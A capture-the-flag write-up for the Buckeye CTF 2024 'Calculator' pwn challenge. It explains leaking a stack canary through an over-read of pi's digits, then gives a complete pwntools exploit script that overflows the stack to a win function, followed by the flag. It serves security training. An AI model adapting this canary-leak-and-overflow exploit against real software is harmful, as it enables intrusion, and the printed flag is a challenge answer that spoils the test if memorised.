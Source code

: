 # pwn / Calculator

A challenge from Buckeye CTF 2024

### Description

nc challs.pwnoh.io 13377

File: [calc](./calc)

### Solve

This was a fun challenge. Scrolling through the decomp, you can see that it does some math operation on two numbers, then lets you type whatever you want (there's a pretty big overflow), and then returns. However, stack canaries are enabled so you have to find a way to leak it first. The trick is when you print pi to use it for the operations. You can input an arbitrary number and then have it read that many digits of pi. If that number is past however many digits of pi that you have, it'll read extra data. The first time I printed, I used `50000` as the number of printed characters and it started printing environmental variables and then segfaulted.

So I had to find some offset after pi was stored where I could find the stack canary was stored. Learning about canaries, the same canary is reused in all functions in question. When I printed a lot of data, the canary appeared multiple times (I had to remember to search it little endian, and I found the canary through gdb). So I just needed to leak an extra like 16 characters to get the canary, then I could overflow to the win function.

Solve script:
```py
from pwn import *


# initialize the binary and set the context (architecture, etc.)
binary = "./calc" # ensure it is executable (chmod +x)
elf = context.binary = ELF(binary, checksec=False)

gs = """
break main
continue
"""

# run with python3 solve.py REMOTE
if args.REMOTE:
    p = remote("challs.pwnoh.io", 13377)

# run with python3 solve.py GDB
elif args.GDB:
    # having issues with gdb showing up? install and run `tmux` before running this script, then uncomment this:
    context.terminal = ["tmux", "splitw", "-h"]

    p = gdb.debug(binary, gdbscript=gs)

# run with python3 solve.py
else:
    p = elf.process()


### START HERE ###

# if a system call fails, it's a stack alignment issue
# just skip past the opening push statement in win to win
# when you call a lot of functions, the last nibble has to be set to 0
# many super optimized functions in system use weird vector stuff that assumes this and then you will get a segfault if it isn't
# you can either align it yourself or just skip past the first push statement in a given function
win = p64(0x004012fb)
# 0xdcc9376d2d195e00
print(p.recvuntil(b"operand: "))
print(p.sendline(b"pi"))
print(p.recvuntil(b"use: "))
p.sendline(str(0x2710 + 14).encode())
canary = p.recvline()[-9:-1]
print(canary)
print(p.recvuntil(b"operator: "))
p.sendline(b"*")
p.recvuntil(b"operand: ")
p.sendline(b"1")

print(p.recvuntil(b"here: "))
payload = b'A' * 40 + canary + b'B' * 8 + win
p.sendline(payload)

p.interactive()
```

Flag: `bctf{cAn4r13S_L0v3_t0_34t_P13_c760f8cc0a44fed9}`